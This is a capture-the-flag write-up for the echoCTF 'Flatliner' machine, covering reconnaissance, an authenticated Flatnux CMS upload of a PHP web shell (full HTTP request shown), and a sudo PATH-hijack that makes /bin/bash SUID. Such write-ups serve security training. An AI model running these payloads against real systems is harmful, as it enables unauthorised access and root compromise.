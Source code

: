 ```yaml
---
description: >-
  Flatliner echoCTF Machine
title: Flatliner (Intermediate)                # Add title here
date: 2025-02-20 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: [Weak Password, Flatnux, Path hijacking, RCE]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Flatliner.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.224
```

### Content

- Weak Password, same as the CMS name
- Flatnux Remote Code Execution (Authenticated)
- Path Hijacking

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.224
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.224 ()   Status: Up
Host: 10.0.160.224 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```
Services and Versions running:
```bash
nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.224
Nmap scan report for 10.0.160.224
Host is up, received user-set (0.19s latency).
Scanned at 2025-02-20 23:57:11 EST for 59s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   256 fb:d7:08:85:ed:62:2b:70:d9:c4:99:7d:96:9f:37:6a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEwl0Nhx2u+zSxEjLL9lAMeUZFACICmBIcXDh6f/PUosofpec+9trK0xhMfISPTrt90KvFUHRdudRKs1+A5VeS8=
|   256 39:57:e6:b2:a0:b2:a4:6b:d6:3d:b3:89:2e:29:37:5e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIISwV9OuOMNiLXFeYk671tCkJjiGiQqFFUNJNq14Ulr4
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.61
| http-methods: 
|_  Supported Methods: GET
|_http-title: Flat time
```

### Exploitation

There is only HTTP port open which has a web page only:

![](/assets/img/Pasted-image-20250220225718.png)

Looking for exploits on this CMS, we identified the following [flatnux - Remote Code Execution (Authenticated)](https://www.exploit-db.com/exploits/51295)

Now, the important thing here is that the exploit requires authentication, this authentication was very tricky, the following credentials were the success ones `admin:flatnux` I've used `cewl` to create a list from the website. Then all you need to do is follow the steps on the exploit which is basically upload a file from the webpage, this is the HTTP request:
```bash
POST /filemanager.php?opmod=upload HTTP/1.1
Host: 10.0.160.224
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------93361341221244197981349489882
Content-Length: 627
Origin: http://10.0.160.224
Connection: keep-alive
Referer: http://10.0.160.224//filemanager.php
Cookie: fnuser=admin; secid=1fa1063f452e44d88c8903d01c4ebc44
Upgrade-Insecure-Requests: 1

-----------------------------93361341221244197981349489882
Content-Disposition: form-data; name="filename"; filename="exploit.php"
Content-Type: application/x-php

<?php system($_REQUEST["cmd"]); ?>

-----------------------------93361341221244197981349489882
Content-Disposition: form-data; name="MAX_FILE_SIZE"

90000000
-----------------------------93361341221244197981349489882
Content-Disposition: form-data; name="dir"

/var/www/html
-----------------------------93361341221244197981349489882
Content-Disposition: form-data; name="send"

Send
-----------------------------93361341221244197981349489882--
```

After that you'll get a webshell on this HTTP request:
```bash
http://10.0.160.224/exploit.php?cmd=whoami
```

### Privilege Escalation
The privilege escalation was very straightforward, a binary that we can execute without password:
```bash
www-data@flatliner:/var/www/html$ sudo -l
User www-data may run the following commands on flatliner:
    (ALL : ALL) NOPASSWD: /usr/local/bin/flatline
```
And the content of the flatline binary is this:
```bash
www-data@flatliner:/var/www/html$ cat /usr/local/bin/flatline
#!/bin/bash
cat flatliner
```
Basically we have a command without full path which is most likely to be vulnerable to PATH Hijacking, so we can execute anything as root if we call it `cat`:
```bash
www-data@flatliner:/tmp$ echo '#!/bin/bash' > cat
www-data@flatliner:/tmp$ echo 'chmod +s /bin/bash' >> cat
www-data@flatliner:/tmp$ cat cat
#!/bin/bash
chmod +s /bin/bash
www-data@flatliner:/tmp$ chmod +x cat 
```
Then we need to modify our `PATH` environment variable:
```bash
www-data@flatliner:/tmp$ export PATH=/tmp:$PATH
www-data@flatliner:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
And finally, we execute the exploit:
```bash
www-data@flatliner:/tmp$ sudo /usr/local/bin/flatline
www-data@flatliner:/tmp$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```
And we are INSIDE!!!


### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`

### Credentials

- GOD DAMN IT DATABUS this was hard to find, credentials were `admin:flatnux`

### Notes

-  Sometimes default credentials are not public, but thinking as an attacker, if we think about it, people uses very easy passwords sometimes, in this case the name of the CMS was the password for the admin account, lesson learned, well played...

### References
- [flatnux - Remote Code Execution (Authenticated)](https://www.exploit-db.com/exploits/51295)


